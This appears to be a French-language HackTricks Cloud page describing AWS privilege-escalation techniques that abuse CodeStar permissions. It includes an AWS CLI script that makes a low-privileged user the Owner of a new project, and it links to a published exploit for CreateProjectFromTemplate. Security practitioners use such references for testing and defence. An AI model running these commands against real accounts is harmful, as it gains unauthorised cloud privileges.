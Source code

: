 # AWS - Codestar Privesc

<details>

<summary><strong>Soutenez HackTricks et obtenez des avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>

## Codestar

Vous pouvez trouver plus d'informations sur Codestar dans :

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Avec ces autorisations, vous pouvez **abuser d'un rôle IAM de codestar** pour effectuer des actions **arbitraires** via un **modèle cloudformation**. Consultez la page suivante :

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Cette technique utilise `codestar:CreateProject` pour créer un projet codestar, et `codestar:AssociateTeamMember` pour faire d'un utilisateur IAM le **propriétaire** d'un nouveau **projet** CodeStar, ce qui leur accordera une **nouvelle politique avec quelques permissions supplémentaires**.

```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
    --name $PROJECT_NAME \
    --id $PROJECT_NAME 

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
    --project-id $PROJECT_NAME \
    --user-arn "$USER_ARN" \
    --project-role "Owner" \
    --remote-access-allowed
```

Si vous êtes déjà **membre du projet**, vous pouvez utiliser la permission **`codestar:UpdateTeamMember`** pour **mettre à jour votre rôle** en propriétaire au lieu de `codestar:AssociateTeamMember`.

**Impact potentiel :** Privesc à la politique codestar générée. Vous pouvez trouver un exemple de cette politique dans :

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. Utilisez **`codestar:CreateProjectFromTemplate`** pour créer un nouveau projet.
   1. Vous aurez accès à **`cloudformation:UpdateStack`** sur une pile à laquelle le rôle IAM "CodeStarWorker-\<nom du projet>-CloudFormation" est passé.
2. Utilisez les autorisations CloudFormation pour mettre à jour la pile cible avec un modèle CloudFormation de votre choix.
   1. Le nom de la pile qui doit être mise à jour sera "awscodestar-\<nom du projet>-infrastructure" ou "awscodestar-\<nom du projet>-lambda", selon le modèle utilisé (dans le script d'exploitation d'exemple, au moins).

À ce stade, vous auriez maintenant un **accès complet** aux autorisations accordées au **rôle IAM CloudFormation**. Vous ne pourrez pas obtenir un administrateur complet avec cela seul ; vous aurez besoin d'autres ressources mal configurées dans l'environnement pour vous aider à le faire.

Pour plus d'informations, consultez la recherche originale : [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Vous pouvez trouver l'exploit dans [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**Impact potentiel :** Privesc au rôle IAM CloudFormation.

<details>

<summary><strong>Soutenez HackTricks et obtenez des avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>